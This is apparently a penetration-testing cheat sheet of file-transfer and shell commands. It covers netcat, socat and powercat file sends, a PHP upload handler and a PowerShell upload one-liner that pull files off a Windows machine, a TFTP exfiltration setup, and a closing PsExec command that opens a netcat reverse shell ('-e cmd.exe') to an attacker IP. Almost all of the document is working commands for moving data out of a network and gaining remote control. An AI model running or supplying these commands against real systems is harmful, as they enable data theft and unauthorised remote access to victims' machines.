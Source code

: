 #### Netcat send file
```
nc -nv <IP> <PORT> <FILE>
```

#### Socat listener for file to send
```
sudo socat TCP4-LISTEN:<PORT>,fork file:<FILE>
```

#### Socat get file
```
socat TCP4:<IP>:<PORT> file:<FILE>,create
```

#### Powercat send file
```
powercat -c <IP> -p <PORT> -i <FILE>
```

#### Upload Windows data through HTTP Post request
make /var/www/upload.php on kali
```
<?php
$uploaddir = '/var/www/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```

Upload file in Windows client
```
powershell (New-Object System.Net.WebClient).UploadFile('http://<IP>/upload.php', '<FILE>')
```

#### Upload through tftp (over udp)
Install tftp on kali
```
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

On windows client to send file
```
tftp -i <IP> put important.docx
```

#### Powercat send file
```
powercat -c <IP> -p <PORT> -i <FILE>
```

## Misc
#### PSExec
Shell back to my machine with other user using netcat 
```
PsExec.exe -u <COMPUTERNAME>\<USERNAME> -p <PASSWORD> \\<COMPUTERNAME> nc.exe <ATTACKER IP> <ATTACKER PORT> -e cmd.exe
```

